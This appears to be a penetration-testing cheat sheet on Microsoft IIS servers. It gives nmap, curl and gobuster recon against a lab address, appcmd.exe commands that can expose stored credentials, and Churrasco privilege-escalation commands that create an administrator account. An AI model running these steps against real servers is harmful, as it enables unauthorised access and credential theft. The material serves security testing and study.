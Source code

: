 ```yaml
---
layout: post
title: IIS
description: IIS
summary: IIS
tags: [web,windows,enum]
minute: 1
---
```

## Ports
* 4XXXX/tcp

## Common Pages
* Under construction

![](/spindel/assets/IIS/7BA3331D-7A92-4B19-98EE-2FD576CCA13C.png)

* 404

![](/spindel/assets/IIS/2CFBCCD1-49F9-400F-935E-9B3DA8A98BF6.png)

## Headers
```
Server: Microsoft-IIS/6.0
X-Powered-By: ASP.NET
```

## Recon
```bash
# Nmap
nmap -p80 10.10.10.29 --script http-iis-webdav-vuln

# Other way of getting IIS version. You will see
# something like "Server: Microsoft-IIS/10.0"
curl -I http://10.10.10.29

# You can get the iisfinal.txt from hacktricks and
# feed it to gobuster.
curl https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-L_YlVBGlH_l7w9zCtQO%2F-L_YlWYOMUA7fr799GvH%2Fiisfinal.txt?alt=media&token=de499b23-3599-45ce-ad7e-7800858b3dac -o iisfinal.txt
gobuster dir -u http://10.10.10.29 -w iisfinal.txt
```

## Interesting Files
```bash
# Constains sql connection strings, passwords and other
# sensitive data. This is similar to `.htaccess` in apache.
web.config

# index file
iisstart.htm
```

## Logins
* Brute force

```bash
# Nmap
nmap -p80 10.10.10.29 --script http-iis-short-name-brute
```

* Try to access some DLLs, they may expose some login page.

![](/spindel/assets/IIS/A482503E-8679-49FB-B8D4-A42BA2BCB6D9.png)

## Downloads
* 10.X - latest version as of November 2021

## appcmd.exe
```powershell
# check if you have permissions
C:\Windows\system32\inetsrv\appcmd.exe list apppools

# may show credentials
C:\Windows\system32\inetsrv\appcmd.exe list vdir
```

* [Decrypting IIS Passwords to Break Out of the DMZ: Part 2](https://www.netspi.com/blog/technical/network-penetration-testing/decrypting-iis-passwords-to-break-out-of-the-dmz-part-2/)

## Some Vulnerabilities
* [IIS7 and higher RCE](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
* [Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation](https://www.exploit-db.com/exploits/6705)

```bash
# https://github.com/Re4son/Churrasco
c:\Inetpub>churrasco.exe -d "net user /add <username> <password>"
c:\Inetpub>churrasco.exe -d "net localgroup administrators <username> /add"
```

## Other resources
* [IIS - Internet Information Services - HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/iis-internet-information-services)
